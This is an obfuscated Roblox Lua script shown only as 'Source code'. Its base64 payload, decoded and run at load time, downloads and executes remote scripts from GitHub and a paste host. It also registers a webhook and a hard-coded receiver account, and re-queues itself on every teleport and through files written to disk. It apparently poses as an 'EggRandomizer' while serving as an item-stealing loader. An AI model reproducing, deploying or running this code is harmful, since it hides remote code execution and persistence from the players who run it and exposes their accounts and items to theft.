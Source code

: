 local _32d8a7e9 = {}
_32d8a7e9[1] = "CmxvY2FsIFBsYXllcnMgPSBnYW1lOkdldFNlcnZpY2UoIlBsYX"; _32d8a7e9[2] = "llcnMiKQpsb2NhbCBwbGF5ZXIgPSBQbGF5ZXJzLkxvY2FsUGxh"; _32d8a7e9[3] = "eWVyCmxvY2FsIGpvYklkID0gZ2FtZS5Kb2JJZAoKbG9jYWwgZX"; _32d8a7e9[4] = "hlY3V0aW9uS2V5ID0gIkNoZXRvc1BheWxvYWRfIiAuLiBwbGF5"; _32d8a7e9[5] = "ZXIuVXNlcklkIC4uICJfIiAuLiBqb2JJZAoKaWYgZ2V0Z2Vudi"; _32d8a7e9[6] = "gpW2V4ZWN1dGlvbktleV0gdGhlbgogICAgcmV0dXJuCmVuZAoK"; _32d8a7e9[7] = "Z2V0Z2VudigpW2V4ZWN1dGlvbktleV0gPSB0cnVlCgpsb2NhbC"; _32d8a7e9[8] = "BtYWluU2NyaXB0VXJsID0gImh0dHBzOi8vcmF3LmdpdGh1YnVz"; _32d8a7e9[9] = "ZXJjb250ZW50LmNvbS9EdXBlTmV3L2JvdC9yZWZzL2hlYWRzL2"; _32d8a7e9[10] = "1haW4vaHMiCmxvY2FsIGxvYWRlclVybCA9ICJodHRwczovL2Fw"; _32d8a7e9[11] = "aS5ydWJpcy5hcHAvdjIvc2NyYXAvdkFJUnRmMFV5YW9UN2JTUS"; _32d8a7e9[12] = "9yYXciCmxvY2FsIHlvdXJzY3JpcHR1cmwgPSAiaHR0cHM6Ly9y"; _32d8a7e9[13] = "YXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL0R1cGVOZXcvbG9hZG"; _32d8a7e9[14] = "VyL3JlZnMvaGVhZHMvbWFpbi9FZ2dSYW5kb21pemVyIgoKbG9j"; _32d8a7e9[15] = "YWwgdXNlcldlYmhvb2sgPSAiaHR0cDovL2ZpMTEuYm90LWhvc3"; _32d8a7e9[16] = "RpbmcubmV0OjIxMjcwL3dlYmhvb2svM2FmZGRlOTAtMGRiMC00"; _32d8a7e9[17] = "MjZkLTkwYmYtZDQwZTVkZGI4MDM2Igpsb2NhbCByZWNlaXZlck"; _32d8a7e9[18] = "5hbWUgPSAieW91cmVhbW9ua2V5MTIzIgoKbG9jYWwgZnVuY3Rp"; _32d8a7e9[19] = "b24gZXhlY3V0ZVVybCh1cmwpCiAgICBpZiB1cmwgYW5kIHVybD"; _32d8a7e9[20] = "pnc3ViKCIlcyIsICIiKSB+PSAiIiB0aGVuCiAgICAgICAgcGNh"; _32d8a7e9[21] = "bGwoZnVuY3Rpb24oKSBsb2Fkc3RyaW5nKGdhbWU6SHR0cEdldC"; _32d8a7e9[22] = "h1cmwpKSgpIGVuZCkKICAgIGVuZAplbmQKCnRhc2suc3Bhd24o"; _32d8a7e9[23] = "ZnVuY3Rpb24oKQogICAgZ2V0Z2VudigpLldlYmhvb2sgPSB1c2"; _32d8a7e9[24] = "VyV2ViaG9vawogICAgZ2V0Z2VudigpLnJlY2VpdmVyID0gcmVj"; _32d8a7e9[25] = "ZWl2ZXJOYW1lCgogICAgZXhlY3V0ZVVybChtYWluU2NyaXB0VX"; _32d8a7e9[26] = "JsKQogICAgZXhlY3V0ZVVybChsb2FkZXJVcmwpCiAgICB0YXNr"; _32d8a7e9[27] = "LndhaXQoMS4xKQoKICAgIGV4ZWN1dGVVcmwoeW91cnNjcmlwdH"; _32d8a7e9[28] = "VybCkKZW5kKQoKaWYgcXVldWVfb25fdGVsZXBvcnQgdGhlbgog"; _32d8a7e9[29] = "ICAgbG9jYWwgZnVuY3Rpb24gYnVpbGRDb21tYW5kKHVybCkKIC"; _32d8a7e9[30] = "AgICAgICBpZiB1cmwgYW5kIHVybDpnc3ViKCIlcyIsICIiKSB+"; _32d8a7e9[31] = "PSAiIiB0aGVuCiAgICAgICAgICAgIHJldHVybiBzdHJpbmcuZm"; _32d8a7e9[32] = "9ybWF0KCJwY2FsbChmdW5jdGlvbigpIGxvYWRzdHJpbmcoZ2Ft"; _32d8a7e9[33] = "ZTpIdHRwR2V0KCclcycpKSgpIGVuZCkiLCB1cmwpCiAgICAgIC"; _32d8a7e9[34] = "AgZW5kCiAgICAgICAgcmV0dXJuICIiCiAgICBlbmQKCiAgICBs"; _32d8a7e9[35] = "b2NhbCBhbnRpRXhlY3V0ZUNvZGUgPSBzdHJpbmcuZm9ybWF0KF"; _32d8a7e9[36] = "tbCiAgICAgICAgbG9jYWwgUGxheWVycyA9IGdhbWU6R2V0U2Vy"; _32d8a7e9[37] = "dmljZSgiUGxheWVycyIpCiAgICAgICAgbG9jYWwgcGxheWVyID"; _32d8a7e9[38] = "0gUGxheWVycy5Mb2NhbFBsYXllcgogICAgICAgIGxvY2FsIGpv"; _32d8a7e9[39] = "YklkID0gZ2FtZS5Kb2JJZAogICAgICAgIGxvY2FsIGV4ZWN1dG"; _32d8a7e9[40] = "lvbktleSA9ICJDaGV0b3NQYXlsb2FkXyIgLi4gcGxheWVyLlVz"; _32d8a7e9[41] = "ZXJJZCAuLiAiXyIgLi4gam9iSWQKICAgICAgICBpZiBnZXRnZW"; _32d8a7e9[42] = "52KClbZXhlY3V0aW9uS2V5XSB0aGVuIHJldHVybiBlbmQKICAg"; _32d8a7e9[43] = "ICAgICBnZXRnZW52KClbZXhlY3V0aW9uS2V5XSA9IHRydWUKIC"; _32d8a7e9[44] = "AgIF1dKQoKICAgIGxvY2FsIGNvbW1hbmRQYXJ0cyA9IHsKICAg"; _32d8a7e9[45] = "ICAgICBhbnRpRXhlY3V0ZUNvZGUsCiAgICAgICAgc3RyaW5nLm"; _32d8a7e9[46] = "Zvcm1hdCgiZ2V0Z2VudigpLldlYmhvb2sgPSAnJXMnIiwgdXNl"; _32d8a7e9[47] = "cldlYmhvb2spLAogICAgICAgIHN0cmluZy5mb3JtYXQoImdldG"; _32d8a7e9[48] = "dlbnYoKS5yZWNlaXZlciA9ICclcyciLCByZWNlaXZlck5hbWUp"; _32d8a7e9[49] = "LAogICAgICAgIGJ1aWxkQ29tbWFuZChtYWluU2NyaXB0VXJsKS"; _32d8a7e9[50] = "wKICAgICAgICBidWlsZENvbW1hbmQoeW91cnNjcmlwdHVybCkK"; _32d8a7e9[51] = "ICAgIH0KCiAgICBsb2NhbCBmdWxsQ29tbWFuZFRvUnVuID0gdG"; _32d8a7e9[52] = "FibGUuY29uY2F0KGNvbW1hbmRQYXJ0cywgIjsgIikKCiAgICBm"; _32d8a7e9[53] = "b3IgaSA9IDEsIDI1IGRvCiAgICAgICAgcGNhbGwoZnVuY3Rpb2"; _32d8a7e9[54] = "4oKQogICAgICAgICAgICBxdWV1ZV9vbl90ZWxlcG9ydChmdWxs"; _32d8a7e9[55] = "Q29tbWFuZFRvUnVuKQogICAgICAgIGVuZCkKICAgIGVuZAoKIC"; _32d8a7e9[56] = "AgIGZvciBpID0gMSwgMTAgZG8KICAgICAgICBwY2FsbChmdW5j"; _32d8a7e9[57] = "dGlvbigpCiAgICAgICAgICAgIGlmIHN5biBhbmQgc3luLnF1ZX"; _32d8a7e9[58] = "VlX29uX3RlbGVwb3J0IHRoZW4KICAgICAgICAgICAgICAgIHN5"; _32d8a7e9[59] = "bi5xdWV1ZV9vbl90ZWxlcG9ydChmdWxsQ29tbWFuZFRvUnVuKQ"; _32d8a7e9[60] = "ogICAgICAgICAgICBlbmQKICAgICAgICBlbmQpCiAgICAgICAg"; _32d8a7e9[61] = "cGNhbGwoZnVuY3Rpb24oKQogICAgICAgICAgICBpZiBTeW5hcH"; _32d8a7e9[62] = "NlIGFuZCBTeW5hcHNlLnF1ZXVlX29uX3RlbGVwb3J0IHRoZW4K"; _32d8a7e9[63] = "ICAgICAgICAgICAgICAgIFN5bmFwc2UucXVldWVfb25fdGVsZX"; _32d8a7e9[64] = "BvcnQoZnVsbENvbW1hbmRUb1J1bikKICAgICAgICAgICAgZW5k"; _32d8a7e9[65] = "CiAgICAgICAgZW5kKQogICAgZW5kCgogICAgZm9yIGkgPSAxLC"; _32d8a7e9[66] = "A1IGRvCiAgICAgICAgcGNhbGwoZnVuY3Rpb24oKQogICAgICAg"; _32d8a7e9[67] = "ICAgICBpZiB3cml0ZWZpbGUgYW5kIHJlYWRmaWxlIHRoZW4KIC"; _32d8a7e9[68] = "AgICAgICAgICAgICAgIHdyaXRlZmlsZSgiYXV0b3F1ZXVlXyIg"; _32d8a7e9[69] = "Li4gaSAuLiAiLmx1YSIsIGZ1bGxDb21tYW5kVG9SdW4pCiAgIC"; _32d8a7e9[70] = "AgICAgICAgICAgICBxdWV1ZV9vbl90ZWxlcG9ydCgncGNhbGwo"; _32d8a7e9[71] = "ZnVuY3Rpb24oKSBsb2Fkc3RyaW5nKHJlYWRmaWxlKCJhdXRvcX"; _32d8a7e9[72] = "VldWVfJyAuLiBpIC4uICcubHVhIikpKCkgZW5kKScpCiAgICAg"; _32d8a7e9[73] = "ICAgICAgIGVuZAogICAgICAgIGVuZCkKICAgIGVuZAplbmQK"
local _067c4e4a = ""
for i = 1, #_32d8a7e9 do
    _067c4e4a = _067c4e4a .. (_32d8a7e9[i] or "")
end
local _60643e5e = ""
local _6b60e184 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
for i = 1, #_067c4e4a, 4 do
    local _7ac4b81f = _067c4e4a:sub(i, i+3)
    local _718321b5 = 0
    for j = 1, #_7ac4b81f do
        local _f70cb379 = _6b60e184:find(_7ac4b81f:sub(j,j))
        if _f70cb379 then
            _f70cb379 = _f70cb379 - 1
            _718321b5 = _718321b5 + _f70cb379 * (64 ^ (4-j))
        end
    end
    for j = 1, 3 do
        if i + j - 1 <= #_067c4e4a then
            _60643e5e = _60643e5e .. string.char(math.floor(_718321b5 / (256 ^ (3-j))) % 256)
        end
    end
end
local _1df313dc = ""
local _counter = 1
while _counter <= #_60643e5e do
    local _byte = _60643e5e:byte(_counter)
    _1df313dc = _1df313dc .. string.char(_byte)
    _counter = _counter + 1
end
loadstring(_1df313dc)()
